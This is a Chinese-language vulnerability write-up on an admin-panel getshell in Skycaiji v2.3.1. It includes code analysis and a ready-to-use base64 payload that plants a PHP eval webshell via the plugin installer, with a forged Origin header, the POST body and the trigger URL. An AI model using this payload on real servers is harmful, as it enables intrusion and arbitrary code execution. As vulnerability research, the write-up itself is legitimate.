





蓝天采集器 v2.3.1 后台getshell
==============================

一、漏洞简介
------------

二、漏洞影响
------------

蓝天采集器 v2.3.1

三、复现过程
------------

### 漏洞分析

漏洞出发点位于/SkycaijiApp/admin/controller/Store.php文件中的installPluginAction函数，如图

首先代码会执行\$this-\>\_checkOrigin();函数，我们跟进一下

该函数是用来判断请求的来源是否在白名单中，注意到这里获取请求来源使用了\$\_SERVER\[\'HTTP\_ORIGIN\'\]

这里我们只要在请求时加上一个Origin请求头，并将其值改为白名单中的值就可以了，我们看一下白名单的值

回到
installPluginAction函数，接下来函数将传入的plugin参数先进行base64解密在进行json解码，接着调用\_installPlugin函数，跟进该函数，如图

这里函数先进行了一系列数据判空操作，接着下来如果满足\$plugin\[\'type\'\]==\'release\'这个条件将会调用addCms函数，我们继续跟进addCms函数，函数位于文件/SkycaijiApp/admin/model/ReleaseApp.php
中，如图

首先函数会判断\$cms\[\'app\'\]是否为空，这里无需理会，在利用时只要构造一下就好，接着代码做了三个正则校验，第一个正则来判断\$cms\[\'app\'\]是否符合其命名规范，我们可以使其值为AaAaAa来绕过校验，第二个正则用来判断函数传入的\$code是否存在命名空间，这里我们可以参考一下位于/plugin/release/cms/BaseCms.php文件中的写法，如图

接着是第三个正则，该处是为了判断类名是否存在，要注意的是类名需要与我们设置的\$cms\[\'app\'\]一样，这里我们可以这么写

class AaAaAa{

过了三个正则后我们会来到write\_dir\_file函数，跟进一下该函数，如图

该函数用来写文件，那么到目前为止我们就可以在网站中写入一个php文件，但是该文件要存在规定好的命名空间和类，为了写入我们可以利用的一句话，我们可以利用注释符将命名空间和类注视掉，如图

接下来就可以构造符合条件得exp了

首先将代码base64编码，然后依据上述分析代码中的条件构造符合的json格式的字符串

    {"app":"AaAaAa","name":"test1","type":"release","module":"test2","code":"PD9waHAKLyoKbmFtZXNwYWNlIHBsdWdpblxyZWxlYXNlXGNtczsKCmNsYXNzIEFhQWFBYXsKCXB1YmxpYyAkcmVsZWFzZTsKfSovCkBldmFsKCRfR0VUW2FdKTsKPz4="}

接着把改串json字符串base64编码一下就可以post过去进行利用了。

### 漏洞复现

漏洞点位于后台安装插件功能处，首先登陆后台

1.访问

    http://www.0-sec.org/index.php?s=/Admin/Store/installPlugin

2.添加http头Origin:

    http://www.0-sec.org

3.post输入

    plugin=eyJhcHAiOiJBYUFhQWEiLCJuYW1lIjoidGVzdDEiLCJ0eXBlIjoicmVsZWFzZSIsIm1vZHVsZSI6InRlc3QyIiwiY29kZSI6IlBEOXdhSEFLTHlvS2JtRnRaWE53WVdObElIQnNkV2RwYmx4eVpXeGxZWE5sWEdOdGN6c0tDbU5zWVhOeklFRmhRV0ZCWVhzS0NYQjFZbXhwWXlBa2NtVnNaV0Z6WlRzS2ZTb3ZDa0JsZG1Gc0tDUmZSMFZVVzJGZEtUc0tQejQ9In0=

如图

接着会在\\plugin\\release\\cms\\下生成AaAaAa.php的一句话后门，如图

然后在后台点击发布插件选项卡，接着点击开发按钮，如图

这时会引用我们带有一句话木马的文件，在url上添加a参数即可执行任意php代码，进而getshell，以执行phpinfo为例，访问

    http://www.0-sec.org/index.php?s=/admin/Develop/releaseCms&app=AaAaAa&a=phpinfo();

如图

参考链接
--------

> https://xz.aliyun.com/t/7873
